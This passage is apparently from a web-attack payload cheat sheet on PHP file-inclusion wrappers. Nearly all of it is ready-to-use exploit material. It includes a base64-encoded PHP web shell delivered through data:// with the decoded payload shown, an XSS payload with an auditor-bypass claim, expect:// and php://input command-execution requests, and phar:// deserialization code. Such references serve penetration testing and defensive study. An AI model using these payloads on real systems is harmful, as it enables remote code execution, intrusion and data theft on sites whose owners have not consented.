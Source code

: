 ### Wrapper data://

```powershell
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
NOTE: the payload is "<?php system($_GET['cmd']);echo 'Shell done !'; ?>"
```

Fun fact: you can trigger an XSS and bypass the Chrome Auditor with : `http://example.com/index.php?page=data:application/x-httpd-php;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+`

### Wrapper expect://

```powershell
http://example.com/index.php?page=expect://id
http://example.com/index.php?page=expect://ls
```

### Wrapper input://

Specify your payload in the POST parameters

```powershell
http://example.com/index.php?page=php://input
POST DATA: <?php system('id'); ?>
```

### Wrapper phar://

Create a phar file with a serialized object in its meta-data.

```php
// create new Phar
$phar = new Phar('test.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub('<?php __HALT_COMPILER(); ? >');

// add object of any class as meta data
class AnyClass {}
$object = new AnyClass;
$object->data = 'rips';
$phar->setMetadata($object);
$phar->stopBuffering();
```

If a file operation is now performed on our existing Phar file via the phar:// wrapper, then its serialized meta data is unserialized. If this application has a class named AnyClass and it has the magic method __destruct() or __wakeup() defined, then those methods are automatically invoked

```php
class AnyClass {
    function __destruct() {
        echo $this->data;
    }
}
// output: rips
include('phar://test.phar');
```

